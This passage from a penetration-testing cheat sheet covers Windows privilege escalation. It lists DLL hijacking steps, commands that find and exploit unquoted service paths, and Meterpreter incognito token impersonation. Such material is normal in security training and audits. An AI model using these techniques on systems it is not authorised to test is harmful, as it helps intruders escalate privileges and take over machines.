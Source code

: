 ### DLL Hijacking Process

1. Identify application loading DLLs
2. Check if you can write to any directory in the search path
3. Create malicious DLL with same name as the missing DLL
4. Restart the application/service/system

## Unquoted Service Paths

### Identifying Unquoted Paths

```powershell
# Find services with unquoted paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

# PowerShell version
Get-WmiObject -Class Win32_Service | Where-Object {$_.StartMode -eq 'Auto' -and $_.PathName -notmatch '^"' -and $_.PathName -match ' '} | Select-Object Name, PathName, StartMode
```

### Exploiting Unquoted Paths

Example for service with path: `C:\Program Files\My Program\service.exe`

1. Check write permissions:
```powershell
# Check if any of these directories are writable
icacls "C:\Program.exe"
icacls "C:\Program Files\My.exe" 
icacls "C:\Program Files\My Program\service.exe"
```

2. Create malicious executable in writable location
3. Restart the service:
```powershell
net stop ServiceName
net start ServiceName
```

## Token Manipulation

### Impersonation with Incognito (Metasploit)

```
# In Meterpreter session
load incognito
list_tokens -u
impersonate_token "DOMAIN\\User"

# Check new privileges
getuid
```
